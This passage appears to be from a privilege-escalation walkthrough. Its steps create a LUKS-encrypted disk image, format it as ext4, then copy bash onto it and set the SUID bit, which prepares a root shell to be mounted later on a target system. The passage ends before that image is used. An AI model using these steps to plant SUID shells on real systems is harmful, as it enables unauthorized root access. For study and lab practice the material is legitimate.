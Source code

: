 Step 1. First, we'll create an empty virtual disk 
```
# dd if=/dev/zero of=luksvolume1 bs=1M count=64
64+0 records in
64+0 records out
67108864 bytes (67 MB, 64 MiB) copied, 0.0982699 s, 683 MB/s
```

Step 2. Then we format & encrypt it with LUKS (we pick an arbitrary password)
```
# cryptsetup -vy luksFormat luksvolume1

WARNING!
========
This will overwrite data on luksvolume1 irrevocably.

Are you sure? (Type 'yes' in capital letters): YES
Enter passphrase for luksvolume1: 
Verify passphrase: 
Key slot 0 created.
Command successful.
```

Step 3. Next, we open the new encrypted container
```
# cryptsetup luksOpen luksvolume1 myluksvol1
Enter passphrase for luksvolume1: 
```

Step 4. And create the ext4 filesystem on it
```
# mkfs.ext4 /dev/mapper/myluksvol1
mke2fs 1.45.6 (20-Mar-2020)
Creating filesystem with 49152 1k blocks and 12288 inodes
Filesystem UUID: d4482c0c-1970-4956-9ffa-8b8105f19cdd
Superblock backups stored on blocks: 
	8193, 24577, 40961

Allocating group tables: done                            
Writing inode tables: done                            
Creating journal (4096 blocks): done
Writing superblocks and filesystem accounting information: done
```

Step 5. Then we mount it, then copy bash to it and set the SUID bit
```
# mount /dev/mapper/myluksvol1 /mnt
# cp bash /mnt
# chmod u+s /mnt/bash
# ls -l /mnt
total 1100
-rwsr-xr-x 1 root root 1113504 Apr  5 08:39 bash
drwx------ 2 root root   12288 Apr  5 08:38 lost+found
# umount /mnt
```
